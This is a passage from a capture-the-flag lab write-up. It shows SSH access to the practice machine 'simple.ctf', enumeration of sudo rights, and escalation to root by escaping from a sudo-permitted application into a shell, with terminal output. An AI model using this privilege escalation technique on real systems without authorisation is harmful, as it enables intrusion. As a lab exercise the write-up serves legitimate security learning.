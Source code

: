 ```
$ ssh mitch@simple.ctf -p2222
The authenticity of host '[simple.ctf]:2222 ([simple.ctf]:2222)' can't be established.
ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[simple.ctf]:2222' (ECDSA) to the list of known hosts.
mitch@simple.ctf's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
```

**Success!** We were able to login and npw have an active shell. If we list files in that directory using `ls -la`,  we can find the **user flag**.

Using `ls /home` we can list users in the system. This will reveal there's another user on the machine.


# Privilege Escalation
Using `sudo -l` command we can test our user permissions to run services and files with sudo privileges 

Note:
: Links to further reading about `sudo -l` can be found at the Summary

```
$ sudo -l          
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/[REDACTED]
```

We can use that service to try and spawn a shell with sudo privileges. We first need to lunch the service as `sudo` and try to exit it back to shell. 
`sudo /usr/bin/[REDACTED]`
Now, once we're in that application we can exit back to shell using `:shell` input, but now the shell is *root* shell.

Note:
: Links to further reading how to spawn a TTY Shell can be found at the Summary

```
$ root@Machine:~# whoami
root
$ root@Machine:~# cd /root/
$ root@Machine:/root# ls 
root.txt
$ root@Machine:/root# cat root.txt 
[REDACTED]
```


# Potential Rabbit Holes
## robots.txt
The website's *robots.txt* file contains the following:
